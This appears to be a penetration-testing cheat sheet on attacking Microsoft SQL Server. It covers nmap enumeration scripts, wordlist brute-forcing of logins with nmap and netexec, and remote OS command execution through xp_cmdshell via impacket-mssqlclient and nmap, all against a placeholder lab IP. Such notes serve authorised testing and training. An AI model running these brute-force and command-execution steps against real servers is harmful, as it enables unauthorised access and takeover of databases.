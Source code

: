 ```yaml
---
description: Recon and pwning MSSQL Server
---
```


# MSSQL

### Enumerate MSSQL with Nmap

{% code overflow="wrap" %}
```bash
nmap --script ms-sql-info -p 1433 10.10.10.1
nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 10.10.10.1
# enumerate user with empty password
nmap -p 1433 --script ms-sql-empty-password 10.10.10.1
```
{% endcode %}

### Dictionary Attack

{% code overflow="wrap" %}
```bash
# nmap
nmap -p 1433 --script ms-sql-brute --script-args userdb=/opt/common_users.txt,passdb=/opt/unix_passwords.txt 10.10.10.1

# netexec
netexec mssql 10.10.10.1 -u /opt/common_users.txt -p /opt/unix_passwords.txt --local-auth --continue-on-success | grep -v "Login failed for user"
```
{% endcode %}

### Impacket-MSSQLClient

```bash
impacket-mssqlclient admin:p@ssw0rd@10.10.10.1
# check if we have 'sa' privilege
select IS_SRVROLEMEMBER ('sysadmin')
# execute command using xp_cmdshell
xp_cmdshell "whoami /priv"
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiNC_SOLTJDrgSTRUw0w-mM4S3OBn2VgbKzbqysFXxuh4DML0q9fGFrZJQQL14eKyweQoCVzRDLYW9PXF2GeCSoRAFwpNsCS97swvAQ27X_6ZpanQCbZDIjo4uJ_BH2hDMQ8VZ2loKM_uSMZ7hdFkNUhPTXeDc3J2ASqnqM6A-07nJCw8xgygxk9SEJvzI/s1068/mssql%20impacket.png" alt=""><figcaption><p>Impacket-MSSQLClient</p></figcaption></figure>

Or, use Nmap to execute xp\_cmdshell:

{% code overflow="wrap" %}
```bash
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password='p@ssw0rd',ms-sql-xp-cmdshell.cmd="ipconfig" 10.10.10.1
```
{% endcode %}
